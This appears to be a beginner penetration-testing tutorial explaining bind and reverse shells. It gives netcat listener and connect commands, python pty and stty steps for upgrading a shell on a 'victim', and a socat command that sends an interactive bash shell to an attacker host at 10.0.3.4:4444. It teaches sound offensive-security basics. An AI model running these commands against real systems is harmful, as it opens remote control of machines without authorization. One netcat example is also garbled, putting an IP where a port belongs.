 ### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python
  on victim:
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: export TERM=xterm

  
    
 using socat:
 on host(attacker):
  socat file:`tty`,raw,echo=0 tcp-listen:4444
 on victim :
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
  
    
    
  
